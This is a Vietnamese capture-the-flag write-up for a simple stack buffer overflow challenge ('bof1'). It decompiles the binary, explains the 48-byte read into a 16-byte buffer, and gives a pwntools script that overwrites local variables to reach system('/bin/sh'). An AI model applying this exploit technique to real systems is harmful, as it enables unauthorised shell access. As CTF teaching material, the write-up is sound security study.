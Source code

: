 **1. Tìm lỗi**

Chạy thử file ta được:

![run.png](photo/run.png)

Dùng lệnh 'file' kiểm tra:

```
bof1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5074553c3715a233fb2abab13a64491c3c7e1a3b, for GNU/Linux 3.2.0, not stripped
```

--> Mở bằng IDA64 ta được:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0LL;
  v6 = 0LL;
  v5 = 0LL;
  init(argc, argv, envp);
  printf("> ");
  v8 = read(0, buf, 0x30uLL);
  if ( buf[v8 - 1] == 10 )
    buf[v8 - 1] = 0;
  printf("a = %ld\n", v7);
  printf("b = %ld\n", v6);
  printf("c = %ld\n", v5);
  if ( v7 && v6 && v5 )
    system("/bin/sh");
  return 0;
}
```

Đoạn mã khai báo một mảng buf có kích thước 16 byte và các biến v5, v6, v7 và v8. Biến v8 được khởi tạo bằng 0 và các biến còn lại được khởi tạo bằng 0.

Hàm read được gọi để đọc dữ liệu từ bàn phím và lưu trữ vào mảng buf. Tham số đầu tiên là số tham chiếu đến bàn phím (0), tham số thứ hai là mảng buf và tham số thứ ba là kích thước tối đa của dữ liệu được đọc (0x30uLL = 48 byte) mà biến buf được khai báo 16 byte nên có lỗi bof.

Nếu ký tự cuối cùng trong chuỗi được nhập là ký tự xuống dòng (10), nó sẽ được thay thế bằng ký tự NULL (0).

Nếu các biến v5, v6 và v7 đều khác 0, hàm system được gọi để thực thi.

**2. Ý tưởng**

Nhập tràn biến buf gồm 16 byte rác sau đó thay đổi giá trị biến v5, v6, v7 trên đó sao cho khác 0 để thực hiện system.

**3. Khai thác**

```
0x0000000000401223 <+70>:    lea    rax,[rbp-0x30]
0x0000000000401227 <+74>:    mov    edx,0x30
0x000000000040122c <+79>:    mov    rsi,rax
0x000000000040122f <+82>:    mov    edi,0x0
0x0000000000401234 <+87>:    call   0x4010a0 <read@plt>
```

Biến buf cách rbp là 0x30.

```
   0x00000000004012a2 <+197>:   cmp    QWORD PTR [rbp-0x10],0x0
   0x00000000004012a7 <+202>:   je     0x4012c3 <main+230>
   0x00000000004012a9 <+204>:   cmp    QWORD PTR [rbp-0x18],0x0
   0x00000000004012ae <+209>:   je     0x4012c3 <main+230>
   0x00000000004012b0 <+211>:   cmp    QWORD PTR [rbp-0x20],0x0
   0x00000000004012b5 <+216>:   je     0x4012c3 <main+230>
```

Các biến v5, v6, v7 cách rbp là: 0x20, 0x18, 0x10. Tính làm gì rồi cũng nhập cho nó khác 0 nên nhập tràn từ buf đến rbp là chắc chắn được.

Ta có script như sau:

```
from pwn import *

r = process('./bof1')

payload = b'a'*0x30
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)